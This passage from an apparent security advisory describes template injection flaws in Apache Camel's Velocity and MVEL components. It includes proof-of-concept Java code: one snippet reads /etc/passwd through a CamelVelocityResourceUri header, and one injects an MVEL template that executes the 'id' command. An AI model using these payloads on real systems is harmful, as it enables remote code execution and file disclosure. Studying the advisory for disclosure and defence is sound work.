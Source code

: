 <p>As with the FreeMarker case, it is also possible for an attacker to provide a <code class="language-plaintext highlighter-rouge">CamelVelocityResourceUri</code> header pointing to an arbitrary URI.
An attacker can use it to provide arbitrary template contents (RCE) or to disclose arbitrary file system resources. E.g:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>System.out.println("Attacking Velocity endpoint");
template.convertAndSend("velocity", "FOO", new MessagePostProcessor() {
    public Message postProcessMessage(Message message) throws JMSException {
        message.setStringProperty("CamelVelocityResourceUri", "file:///etc/passwd");
        return message;
    }
});
</code></pre></div></div>

<h4 id="impact-1">Impact</h4>

<p>This issue leads to Remote Code Execution and Arbitrary File Disclosure.</p>

<h3 id="issue-3-server-side-template-injection-on-camel-mvel-component-ghsl-2020-088">Issue 3: Server-Side Template Injection on <code class="language-plaintext highlighter-rouge">camel-mvel</code> component (GHSL-2020-088).</h3>

<p>Similarly <code class="language-plaintext highlighter-rouge">camel-mvel</code> component also allows dynamic templating by accepting and processing the <code class="language-plaintext highlighter-rouge">CamelMvelTemplate</code> header. Given a Camel route using the <code class="language-plaintext highlighter-rouge">camel-mvel</code> component such as in:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="n">from</span><span class="o">(</span><span class="s">"activemq:mvel"</span><span class="o">)</span>
    <span class="o">.</span><span class="na">to</span><span class="o">(</span><span class="s">"mvel:template.mvel"</span><span class="o">)</span>
    <span class="o">.</span><span class="na">to</span><span class="o">(</span><span class="s">"stream:out"</span><span class="o">);</span>
</code></pre></div></div>

<p>An attacker would be able to override the default <code class="language-plaintext highlighter-rouge">template.mvel</code> template by sending a custom template in the <code class="language-plaintext highlighter-rouge">CamelMvelTemplate</code> header:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nc">System</span><span class="o">.</span><span class="na">out</span><span class="o">.</span><span class="na">println</span><span class="o">(</span><span class="s">"Attacking MVEL endpoint"</span><span class="o">);</span>
<span class="n">template</span><span class="o">.</span><span class="na">convertAndSend</span><span class="o">(</span><span class="s">"mvel"</span><span class="o">,</span> <span class="s">"FOO"</span><span class="o">,</span> <span class="k">new</span> <span class="nc">MessagePostProcessor</span><span class="o">()</span> <span class="o">{</span>
    <span class="kd">public</span> <span class="nc">Message</span> <span class="nf">postProcessMessage</span><span class="o">(</span><span class="nc">Message</span> <span class="n">message</span><span class="o">)</span> <span class="kd">throws</span> <span class="nc">JMSException</span> <span class="o">{</span>
        <span class="nc">String</span> <span class="n">payload</span> <span class="o">=</span> <span class="s">"MVEL @{com.sun.org.apache.xerces.internal.utils.ObjectFactory.newInstance(\"javax.script.ScriptEngineManager\",null,false).getEngineByName('js').eval(\"var proc=new java.lang.ProcessBuilder('id');var is=proc.start().getInputStream(); var sc=new java.util.Scanner(is); var out=''; while (sc.hasNext()) {out += (sc.nextLine())};out\")}"</span><span class="o">;</span>
        <span class="n">message</span><span class="o">.</span><span class="na">setStringProperty</span><span class="o">(</span><span class="s">"CamelMvelTemplate"</span><span class="o">,</span> <span class="n">payload</span><span class="o">);</span>
        <span class="k">return</span> <span class="n">message</span><span class="o">;</span>
    <span class="o">}</span>
<span class="o">});</span>
</code></pre></div></div>
